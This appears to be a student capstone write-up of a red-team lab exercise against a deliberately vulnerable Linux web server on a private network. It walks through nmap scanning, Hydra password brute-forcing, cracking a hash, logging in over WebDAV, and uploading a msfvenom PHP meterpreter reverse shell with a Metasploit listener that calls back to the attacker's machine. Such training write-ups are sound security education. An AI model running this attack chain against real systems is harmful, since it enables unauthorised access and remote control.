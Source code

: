# Red Vs. Blue Team Project
Capstone Engagement
Assessment, Analysis, and Hardening of a Vulnerable System
## Red Team
### Step 1: Discover the IP address of the Linux server
Run `nmap 192.168.1.0/24`
* From the Nmap scan we can see that port 80 and port 22 is open
* image
* In the web browser, searched IP 192.168.1.105
* image
### Step 2: Locate the hidden directory on the server.
- Navigated to the secret folder directory by typing: 192.168.1.105/company_folders/secret_folder into the search bar
- The directory asks for authentication in order to access it.The user with access to this folder is Ashton 
### Step 3: Brute force the password for the hidden directory.
- The folder is password protected and we used Hydra to brute force into the directory. We ran Hydra against Ashton's user name and wordlist
- Command: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
- image
- The username is ashton and the password is leopoldo
- W e accessed the Secret folder and we got the information below
- image
- Inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.
### Step 4: Connect to the server via Webdav
- We simply used and online tool called Crack Station to break the password hash. https://crackstation.net
- image
- The password is revealed as: linux4u
### Step 5: Connect to the server via WebDAV
- Following the direction in the secret folder
- Open the File System
- Click Browse Network
- Type: dav://192.168.1.105/webdav into the url bar
- Enter Ryan's credentials to log in
- image
### Step 6: Upload a PHP reverse shell payload
- Command to create the reverse shell:
- Commad: `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`
- image
- To set up listener
- Run `msfconsole`
- Run `use exploit/multi/handler`
- Run `set payload php/meterpreter/reverse_tcp`
- Run `show options and point out they need to set the LHOST`
- Run `set LHOST 192.168.1.90`
- Run `exploit`
- Copy the reverse shell onto the WebdDAV directory
- image
- connect to the webdav folder by navigating to 192.168.1.105/webdav and use ryan's username and password `username:ryan password:linux4u`
- click on the shell.php file to activate it.
- image
### Step 7: Find and capture the flag
- Run `shell` to drop into bash shell
- Command to find the flag: `find . -iname flag.txt`

